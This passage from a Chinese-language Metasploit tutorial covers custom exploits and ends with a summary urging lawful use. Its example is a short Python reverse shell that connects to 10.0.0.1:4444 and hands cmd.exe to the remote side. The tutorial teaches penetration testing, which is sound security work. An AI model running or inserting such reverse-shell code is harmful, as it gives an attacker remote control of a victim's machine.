 ```ruby
      # Do port scanning and vulnerability assessment here
    rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout
      print_error('Failed to connect to target')
      ensure
      disconnect
    end
  end
end
```
<a name="eu8ya"></a>
### 3、自定义Exploit
Metasploit允许用户自定义Exploit，以满足特定的渗透测试需求。用户可以选择不同的编程语言（如Python、Ruby等）和不同的操作系统（如Windows、Linux等）来编写Exploit。<br />例如，使用Python编写一个Windows反向Shell Exploit：
```python
import socket
import subprocess

HOST = '10.0.0.1'
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

subprocess.Popen(['cmd.exe'], stdin=s.fileno(), stdout=s.fileno(), stderr=s.fileno())
```
<a name="DilCx"></a>
## 六、总结
本教程介绍了Metasploit框架的基本操作、常用模块以及高级应用，旨在帮助渗透测试人员和安全专家更好地运用Metasploit进行安全评估和保护工作。Metasploit是一个功能强大且易于使用的渗透测试工具，但是需要注意合法使用，避免造成不必要的损失。
